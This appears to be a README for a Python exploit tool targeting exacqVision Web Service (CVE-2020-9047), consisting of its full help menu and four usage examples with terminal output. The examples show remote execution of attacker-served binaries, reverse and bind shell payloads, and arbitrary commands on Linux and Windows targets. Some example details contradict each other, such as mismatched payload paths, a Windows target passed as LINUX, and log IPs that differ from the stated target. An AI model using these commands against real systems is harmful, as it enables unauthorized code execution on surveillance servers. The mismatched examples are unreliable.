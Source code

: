 ### Usage/Help Menu

```
usage: CVE-2020-9047.py [-h] [-p RPORT] [-s LPORT] [--command] [-d WEBDIR]
                        [-U USERNAME] [-P PASSWORD]
                        {WINDOWS,LINUX,CHECK} RHOST LHOST PAYLOAD

Exploit for exacqVision Web Service as outlined in CVE-2020-9047. This program
targets Windows and Linux x86 installations of exacqVision Web Service
versions 3.8.2.67295 - 20.06.3.0. Written by Michael W. Norris.

positional arguments:
  {WINDOWS,LINUX,CHECK}
                        The target operating system. Provide "WINDOWS" for
                        Windows, "LINUX" for Linux, or "CHECK" to have this
                        program perform a check. When using "CHECK", '' can be
                        provided for the LHOST and PAYLOAD arguments.
  RHOST                 The IP address of the remote host; the IP address of
                        the target.
  LHOST                 The local IP address that will serve the payload for
                        the remote host. This should not be "localhost" or
                        "127.0.0.1". The remote host will need to be able to
                        connect to the provided IP address. This program
                        should be run on the system with the specified IP
                        address.
  PAYLOAD               The absolute file path of an existing Windows
                        executable (.exe) or Linux binary file on the local
                        system. The binary will be executed on the remote
                        host. If the --command flag is set and "LINUX" was
                        provided as the TARGET argument, enter a command that
                        will be executed on the remote host.

optional arguments:
  -h, --help            show this help message and exit
  -p RPORT              The port on the remote host where exacqVision Web
                        Service is running. Default: 80
  -s LPORT              The local port that will be used to serve the payload
                        file for the remote host. Default: 8000
  --command             Sets the command flag. The flag allows for a command
                        to be provided as the PAYLOAD argument instead of a
                        file path to a binary. The provided command will be
                        executed on the remote host. The flag should be set
                        only if "LINUX" was provided as the TARGET argument.
  -d WEBDIR             The local existing directory where a randomly named
                        temporary directory will be created. Default: /tmp
  -U USERNAME           The username for authenticating to the remote
                        exacqVision Web Service application. Default: admin
  -P PASSWORD           The password for authenticating to the remote
                        exacqVision Web Service application. Default: admin256
```

### Usage Example I: System Check
To check whether a system is vulnerable to CVE-2020-9047 as well as susceptible to this exploit and/or to fingerprint the remote host's operating system/architecture, use the following command syntax. In this example, the remote host is 10.0.0.22 (`RHOST`).

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py CHECK 10.0.0.22 '' ''
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
```

### Usage Example II: Linux ELF File Payload
To instruct the remote Linux system 10.0.0.22 (`RHOST`) running exacqVision Web Service on TCP port 8080 to install/execute an ELF binary payload that is present on the local system 10.0.0.11 (`LHOST`) on TCP port 80 at absolute file path `/root/demo/shell_reverse_tcp` (`PAYLOAD`), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.22 -p 8080 10.0.0.11 -s 80 '/root/demo/ping_me'
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
Confirm the specified PAYLOAD is compatible with the remote architecture
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:80
Serving payload from /tmp/tmpo7516343 directory

192.168.57.161 - - [03/Jun/2020 23:11:09] "GET /op0tv6l4 HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:11:13] "GET /aax35u41.deb HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpo7516343
Stopping HTTP server on 0.0.0.0:80
```

### Usage Example III: Linux Command Payload
To specify a command (`--command`) to be excuted on the remote Linux system as the `PAYLOAD` argument (instead of an ELF binary payload), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.22 10.0.0.11 --command 'ping -c 5 10.0.0.11'
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
The provided command will be executed on the remote system
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:8000
Serving payload from /tmp/tmpp2wmx5x3 directory

192.168.57.161 - - [03/Jun/2020 23:22:04] "GET /no_n0zgk HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:22:08] "GET /1vlkyw3.deb HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpp2wmx5x3
Stopping HTTP server on 0.0.0.0:8000
```

*Note: Specifying a command as a the PAYLOAD argument is only supported for remote Linux hosts.*

### Usage Example IV: Windows Executable File Payload
To instruct the remote Windows system 10.0.0.33 (`RHOST`) with the exacqVision Web Service password of `asdf1234!@#$` to install/execute a Windows executable payload that is present on the local system 10.0.0.11 (`LHOST`) at absolute file path `/root/demo/shell_bind_tcp.exe` (`PAYLOAD`), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.33 -P 'asdf1234!@#$' 10.0.0.11 '/root/demo/shell_bind_tcp.exe'
Target OS: windows Intel(R) Core(TM) i3-3220 CPU @ 3.30GHz
EVWS Version: 9.8.4.149166

Exploitable: YES
Confirm the specified PAYLOAD is compatible with the remote architecture
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:8000
Serving payload from /tmp/tmpgizzpfa4 directory

192.168.57.161 - - [03/Jun/2020 23:25:09] "GET /4kdjekqk HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:25:13] "GET /fp92ecyj.exe HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpgizzpfa4
Stopping HTTP server on 0.0.0.0:8000
```
